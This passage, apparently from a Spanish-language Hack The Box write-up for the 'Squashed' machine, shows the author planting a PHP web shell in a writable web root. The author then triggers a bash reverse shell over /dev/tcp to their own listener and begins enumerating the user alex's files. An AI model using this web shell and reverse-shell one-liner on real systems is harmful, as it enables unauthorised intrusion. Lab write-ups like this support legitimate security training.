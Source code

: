 ![""](/assets/images/htb-squashed/squashed3.png)

Tenemos permisos de escritura dentro de la raíz del sitio web, por lo tanto, ya debemos estar pensando en generar un archivo PHP para entablarnos una reverse shell.

```
┌─[squashed@k4mipc]─[/mnt/web_server]
└──╼ $nano cmd.php
Unable to create directory /home/squashed/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

┌─[squashed@k4mipc]─[/mnt/web_server]
└──╼ $cat cmd.php 
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
┌─[squashed@k4mipc]─[/mnt/web_server]
└──╼ $
```

![""](/assets/images/htb-squashed/squashed4.png)

Tenemos ejecución de comando a nivel de sistema, ahora si vamos a entablarnos una reverse shell

```
http://10.10.11.191/cmd.php?cmd=bash -c "bash -i >& /dev/tcp/10.10.14.17/443 0>&1"
```

```
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.191] 57808
bash: cannot set terminal process group (1081): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$
```

Ya nos encontramos dentro de la máquina como el usuario **alex**. Antes de otra cosa, haremos un [Tratamiento de la tty](/posts/tratamiento-tty). Vamos a ver que encontramos en el directorio del usuario **alex**:

```
alex@squashed:/var/www/html$ cd /home/
alex@squashed:/home$ ls -la
total 16
drwxr-xr-x  4 root root 4096 Oct 21 14:57 .
drwxr-xr-x 20 root root 4096 Oct 21 14:57 ..
drwxr-xr-x 16 alex alex 4096 Jan 17 03:06 alex
drwxr-xr-x 14 ross ross 4096 Jan 15 23:58 ross
alex@squashed:/home$
alex@squashed:/home/alex$ ls -la
total 76
drwxr-xr-x 16 alex alex 4096 Jan 17 03:06 .
drwxr-xr-x  4 root root 4096 Oct 21 14:57 ..
-rw-rw-rw-  1 alex alex   57 Jan 15 23:58 .Xauthority
lrwxrwxrwx  1 root root    9 Oct 17 13:23 .bash_history -> /dev/null
drwxr-xr-x  8 alex alex 4096 Jan 17 02:30 .cache
```

[bat error]: '.Xauthority': Permission denied (os error 13)